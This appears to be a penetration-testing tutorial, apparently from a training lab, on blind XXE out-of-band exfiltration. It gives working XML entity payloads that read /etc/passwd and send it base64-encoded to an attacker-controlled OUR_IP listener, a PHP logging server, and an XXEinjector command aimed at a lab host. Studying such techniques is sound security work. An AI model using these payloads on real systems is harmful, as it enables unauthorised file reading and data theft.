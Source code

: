# Blind Data Exfiltration

In scenarios where we encounter blind XXE vulnerabilities, we may not receive any output from our XML input entities or any PHP errors. This presents a challenge, but we can utilize Out-of-Band (OOB) Data Exfiltration techniques to extract sensitive information.

**Out-of-Band Data Exfiltration**

OOB Data Exfiltration is a method used in various blind attacks, including blind SQL injections and blind XXE. The key idea is to make the vulnerable web application send a request to our server, allowing us to capture the data we want to exfiltrate.

**Steps for OOB Data Exfiltration:**

1.  **Base64 Encoding the File Content**: We can use a parameter entity to read the content of a file and encode it in base64 format.

    ```xml
    <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
    ```
2.  **Creating an OOB Request**: We create another parameter entity that sends a request to our server, including the base64 encoded content in the URL.

    ```xml
    <!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
    ```
3.  **Setting Up the PHP Server**: We can write a simple PHP script to decode the base64 content and log it.

    ```php
    <?php
    if(isset($_GET['content'])){
        error_log("\n\n" . base64_decode($_GET['content']));
    }
    ?>
    ```
4.  **Starting the PHP Server**:

    ```bash
    php -S 0.0.0.0:8000
    ```
5.  **Crafting the XML Payload**: We reference the OOB entity in our XML request.

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE email [ 
      <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
      %remote;
      %oob;
    ]>
    <root>&content;</root>
    ```
6. **Sending the Request**: We send the crafted XML payload to the vulnerable endpoint.
   * Example: `POST /blind/submitDetails.php`
7. **Capturing the Output**: Check the PHP server logs to see the decoded content of the file.

**Example Output**

When the request is successful, the server logs will show the content of the requested file, such as `/etc/passwd`.

**Advanced Techniques: DNS OOB Exfiltration**

In addition to HTTP requests, we can also use DNS OOB Exfiltration by encoding the data as a subdomain. This method requires more setup but can be effective in certain scenarios.

**Automating OOB Exfiltration**

For efficiency, we can automate the OOB data exfiltration process using tools like **XXEinjector**. This tool supports various XXE exploitation techniques, including OOB exfiltration.

**Steps to Use XXEinjector:**

1.  **Clone the Tool**:

    ```bash
    git clone https://github.com/enjoiz/XXEinjector.git
    ```
2.  **Prepare the HTTP Request**: Copy the relevant HTTP request and write it to a file, marking the position for injection.

    ```http
    POST /blind/submitDetails.php HTTP/1.1
    Host: 10.129.201.94
    Content-Length: 169
    Content-Type: text/plain;charset=UTF-8

    <?xml version="1.0" encoding="UTF-8"?>
    XXEINJECT
    ```
3.  **Run the Tool**: Execute the XXEinjector with the appropriate flags.

    {% code overflow="wrap" %}
    ```bash
    ruby XXEinjector.rb --host=[YOUR_IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
    ```
    {% endcode %}
4. **Check Logs for Output**: The exfiltrated data will be stored in the Logs folder of the tool.

**Conclusion**

Out-of-Band Data Exfiltration is a powerful technique for extracting data in blind XXE scenarios. By leveraging base64 encoding and automated tools, we can efficiently retrieve sensitive information without direct output from the vulnerable application. Always ensure to conduct such activities ethically and within legal boundaries.

